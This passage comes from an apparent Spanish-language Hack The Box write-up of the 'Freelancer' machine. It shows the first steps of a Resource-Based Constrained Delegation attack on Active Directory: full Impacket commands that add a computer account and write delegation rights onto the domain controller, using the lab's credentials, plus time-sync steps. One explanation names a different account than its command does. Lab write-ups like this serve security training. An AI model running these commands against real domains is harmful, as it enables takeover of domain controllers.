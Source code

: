 Pertenecemos al grupo **AD Recycle Bin**. Vamos a utilizar un ataque de **Resource-Based Constrained Delegation**. Para ello, utilizaremos **Impacket**.

### 1. Creación del Objeto de Computadora

Ejecutamos el siguiente comando para crear un nuevo objeto de computadora llamado `ANSW3R$` en el dominio:

```bash
impacket-addcomputer -computer-name 'ANSW3R$' -computer-pass 'Fuego123@' -dc-host freelancer.htb -domain-netbios freelancer.htb freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'
```

**Explicación:** Este comando crea un nuevo objeto de computadora, y la contraseña de la computadora es `'Fuego123@'`. Una vez creado, este objeto puede actuar en nombre de otros objetos en el dominio.

<figure>
    <img src="/assets/img/Freelancer/imagen67.png" alt="Creación de objeto de computadora">
</figure>

### 2. Delegación de Permisos

Ejecutamos el siguiente comando para otorgar derechos de delegación:

```bash
impacket-rbcd -delegate-from 'ANSW3R$' -delegate-to 'DC$' -dc-ip 10.10.11.5 -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```

**Explicación:** Este comando permite que `ATTACKERSYSTEM$` actúe en nombre de otros usuarios en el **DC**. La salida indica que los derechos de delegación se modificaron exitosamente.

### 3. Sincronización del Sistema

Detenemos el servicio de sincronización de tiempo y sincronizamos manualmente con el siguiente comando:

```bash
systemctl stop systemd-timesyncd
ntpdate -u 10.10.11.5
```

<figure>
    <img src="/assets/img/Freelancer/imagen68.png" alt="Sincronización del sistema">
</figure>
